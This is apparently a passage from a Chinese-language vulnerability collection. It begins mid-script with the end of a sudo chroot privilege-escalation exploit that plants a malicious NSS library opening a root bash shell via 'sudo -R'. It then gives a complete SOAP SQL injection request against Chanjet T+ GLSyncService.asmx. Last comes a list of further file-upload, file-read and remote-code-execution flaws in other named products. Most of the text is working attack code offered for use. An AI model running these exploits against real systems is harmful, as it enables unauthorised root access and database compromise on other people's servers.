 ```
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```  
  
  
漏洞名称：  
畅捷通T+ GLSyncService.asmx SQL注入漏洞  
  
漏洞描述：  
  
/tplus/GLSyncService.asmx接口存在SOAP注入漏洞  
```
POST /tplus/GLSyncService.asmx HTTP/1.1
Host: {{Hostname}}
SOAPAction: "http://www.chanjet.com/GetSourceAccountDataTable"
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetSourceAccountDataTable xmlns="http://www.chanjet.com/">
      <versionType>' UNION ALL SELECT NULL,@@VERSION,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- VsIH</versionType>
    </GetSourceAccountDataTable>
  </soap:Body>
</soap:Envelope>
```  
  
  
其他  
  
  
帆软报表  
fr_remote_design 接口存在未授权文件上传漏洞  
  
  
  
美特 CRM  
sendsms.jsp 存在任意文件上传漏洞  
  
  
畅捷通T+ keyEdit.aspx SQL注入  
  
浪擎DAYS灾备任意文件上传  
  
圣博润堡垒机远程代码执行  
  
浪潮GS任意文件读取  
  